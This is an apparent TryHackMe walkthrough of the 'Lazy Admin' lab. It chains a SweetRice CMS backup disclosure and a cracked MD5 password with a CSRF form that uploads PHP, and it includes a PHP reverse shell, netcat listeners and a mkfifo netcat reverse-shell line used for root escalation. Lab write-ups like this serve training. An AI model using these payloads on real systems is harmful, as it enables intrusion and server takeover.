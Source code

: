 # Lazy Admin - TryHackMe WriteUp
# By 0xRar



## Scanning
```
nmap -T4 -p- -A -sC -Pn MACHINE_IP
Starting Nmap 7.80 ( https://nmap.org ) at 2021-01-22 19:12 EST
Nmap scan report for MACHINE_IP
Host is up (0.15s latency).
Not shown: 65532 closed ports
PORT      STATE    SERVICE VERSION
22/tcp    open     ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 49:7c:f7:41:10:43:73:da:2c:e6:38:95:86:f8:e0:f0 (RSA)
|   256 2f:d7:c4:4c:e8:1b:5a:90:44:df:c0:63:8c:72:ae:55 (ECDSA)
|_  256 61:84:62:27:c6:c3:29:17:dd:27:45:9e:29:cb:90:5e (ED25519)
80/tcp    open     http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- We see that we have port 80 open lets check that out first:
`http://MACHINE_IP` we can see the Apache2 Ubuntu Default Page.


lets check what directories do we have:
```
/

gobuster dir -u MACHINE_IP -w /usr/share/wordlists/dirb/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/content (Status: 301)
/index.html (Status: 200)
/server-status (Status: 403)



/content

gobuster dir -u MACHINE_IP/content -w /usr/share/wordlists/dirb/common.txt

/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/_themes (Status: 301)
/as (Status: 301)
/attachment (Status: 301)
/images (Status: 301)
/inc (Status: 301)
/index.php (Status: 200)
/js (Status: 301)

```

> By taking a look at the source code of the `/content`
> we can see that we have a js linked `http://MACHINE_IP/content/js/SweetRice.js`
> by checking the js file we see that the `cms: SweetRice version is 0.5.4`


## Exploitation

- Now that we have the cms name and version we can search for exploits
```
searchsploit SweetRice
as we can see there is 2 interesting exploits here:
SweetRice 1.5.1 - Backup Disclosure /content/inc/mysql_backup/ (https://www.exploit-db.com/exploits/40718)
SweetRice 1.5.1 - Cross-Site Request Forgery / PHP Code Execution (https://www.exploit-db.com/exploits/40700)
```

- After downloading the mysql backup it seems like the file type is php script 
`file mysql_bakup_20191129023059-1.5.1.sql`

- After going through the file and reading the content we can see the username and the passwd:
```
\\"admin\\";s:7:\\"manager\\";s:6:\\"passwd\\";s:32:\\"42f749ade7f9e195bf475f37a44cafcb\\

username : manager

the passwd looks like an md5 hash we can crack it at (https://crackstation.net/)

passwd : Password123
```

- Looking at the directiries we see the login page at `http://MACHINE_IP/content/as/`
- Logging in gave us nothing , so lets check out the other exploit it will allow us to execute code , it means we can get a reverse shell

```
first lets edit our exploit.html , and change the localhost to our MACHINE_IP
and change the location of the login page

<html>
<body onload="document.exploit.submit();">
<form action="http://MACHINE_IP/content/as/?type=ad&mode=save" method="POST" name="exploit">
<input type="hidden" name="adk" value="hacked"/>
<textarea type="hidden" name="adv">
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>
&lt;/textarea&gt;
</form>
</body>
</html>

firefox exploit.html &

Running the exploit.html twice will upload our PoC

going to (http://MACHINE_IP/content/inc/ads/hacked.php), if you can see the phpinfo() page
that means your exploit worked !
```


- Now we can use a reverse shell to gain access
```
i use (https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

instead of using this ,
<?php
echo '<h1> Hacked </h1>';
phpinfo();?>

we delete it and paste in our php shell,
 than firefox exploit.html again 
```

- Lets listen via nc `nc -lnvp 4444`
- We can see our shell is uploaded lets run it by going to `/content/inc/ads/shellname.php`


- Lets go get our user flag
```
cd home/itguy
cat user.txt

THM{********************************}    
```


## Privilege Escalation

```
in the itguy dir we see a backup.pl

we see that backup.pl is calling  /etc/copy.sh and copy.sh is writeable for users

rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc MACHINE_IP 7777 >/tmp/f
```

- Lets open a new terminal and listen via nc again  `nc -lnvp 7777`

```
now lets run backup.pl so it calls copy.sh than trigger our shell

cd root

cat root.txt

THM{********************************}

```

## This machine is an example for chaining 2 exploits to gain access.
## Thank you for reading 
